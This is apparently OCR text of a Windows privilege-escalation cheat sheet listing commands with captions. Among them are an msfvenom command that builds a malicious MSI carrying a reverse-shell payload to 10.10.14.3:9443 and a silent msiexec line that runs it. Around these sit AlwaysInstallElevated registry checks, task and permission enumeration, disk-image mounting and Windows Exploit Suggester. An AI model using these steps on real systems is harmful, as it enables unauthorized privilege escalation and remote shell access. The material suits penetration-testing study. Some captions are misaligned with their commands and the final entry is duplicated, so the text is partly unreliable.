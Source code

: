 > Encode file with certutil

`certutil -decode encodedfile file2`

> Decode file with certutil

`reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer`

> Query for always install elevated registry key (1)

`reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer`

> Query for always install elevated registry key (2)

`msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.3 lport=9443 -f msi > aie.msi`

> Generate a malicious MSI package

`msiexec /i c:\users\lafi\desktop\aie.msi /quiet /qn /norestart`

> Executing an MSI package from command line

`schtasks /query /fo LIST /v`

> Enumerate scheduled tasks

`Get-ScheduledTask | select TaskName,State`

> Enumerate scheduled tasks with PowerShell

`.\accesschk64.exe /accepteula -s -d C:\Scripts\`

> Check permissions on a directory

`Get-LocalUser`

> Check local user description field

`Get-WmiObject -Class Win32_OperatingSystem | select Description`

> Enumerate computer description field

`guestmount -a SQL01-disk1.vmdk -i --ro /mnt/vmd`

> Mount VMDK on Linux

`guestmount --add WEBSRV10.vhdx --ro /mnt/vhdx/ -m /dev/sda1`

> Mount VHD/VHDX on Linux

`sudo python2.7 windows-exploit-suggester.py --update`

> Update Windows Exploit Suggester database

`python2.7 windows-exploit-suggester.py --database 2021-05-13-mssb.xls --systeminfo win7lpe-systeminfo.txt`

> Running Windows Exploit Suggester

REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUAREG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA

> Confirming UAC is enabledConfirming UAC is enabled
